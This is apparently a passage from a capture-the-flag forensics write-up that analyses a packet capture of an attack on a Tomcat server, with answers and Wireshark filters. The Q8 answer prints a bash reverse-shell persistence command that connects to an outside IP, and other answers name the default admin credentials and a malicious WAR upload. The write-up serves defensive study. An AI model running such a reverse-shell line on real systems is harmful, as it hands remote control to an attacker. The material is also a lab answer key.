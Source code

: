 **Q3** 🌐  
From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?  
>> 8080  
<img width="940" height="619" alt="image" src="https://github.com/user-attachments/assets/6858d24e-21bc-489b-9a55-c557ab674b7a" />

**Q4** 🛠️  
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?  
>> gobuster  
<img width="940" height="442" alt="image" src="https://github.com/user-attachments/assets/fc038d2d-f61c-49d3-9e79-be6debb8d7cf" />

**Q5** 🗂️  
After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?  
>> /manager  
<img width="940" height="789" alt="image" src="https://github.com/user-attachments/assets/bcf520f3-b7d3-47b7-aa38-cf7c8ab54228" />

**Q6** 🔑  
After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?  
>> admin:tomcat  

**Q7** 📤  
Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?  
>> JXQOZY.war  
<img width="940" height="511" alt="image" src="https://github.com/user-attachments/assets/85cea424-1a54-43f7-9eaa-6b21ab99cb4e" />

**Q8** 🐚  
After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?  
>> /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'  
<img width="940" height="572" alt="image" src="https://github.com/user-attachments/assets/fe8c42cf-19ad-4f41-8618-1a8ff52f108b" />

---

## 📝 Wireshark Filters Reference  

| **Q#** | **Filter** | **Expected Outcome** |
|--------|------------|--------------------|
| Q1 🔍 | Statistics > Conversations | Identify the source IP generating requests across multiple ports (port scanning). |
| Q2 🌏 | N/A (use ipinfo.io lookup) | Determine the country of the attacker’s IP. |
| Q3 🌐 | `ip.src == <Attacker_IP> && http` | Show HTTP traffic from attacker; identify port used for admin panel access (e.g., 8080). |
| Q4 🛠️ | `http.response.code == 404 || http.request` | Find enumeration attempts; check User-Agent headers to identify tools like gobuster. |
| Q5 🗂️ | `http && http.response.code==200` | Filter successful directory access; discover admin or manager panel paths. |
| Q6 🔑 | `http.authbasic` | Display HTTP Basic Authentication headers; identify credentials used for login. |
| Q7 📤 | `ip.src == <Attacker_IP> && http.request.method == POST` | Reveal uploaded files; locate malicious WAR file (e.g., JXQOZY.war). |
| Q8 🐚 | `ip.src == <Attacker_IP> && tcp.flags == 0x012` | Trace reverse shell TCP streams; extract commands used for persistence. |

---
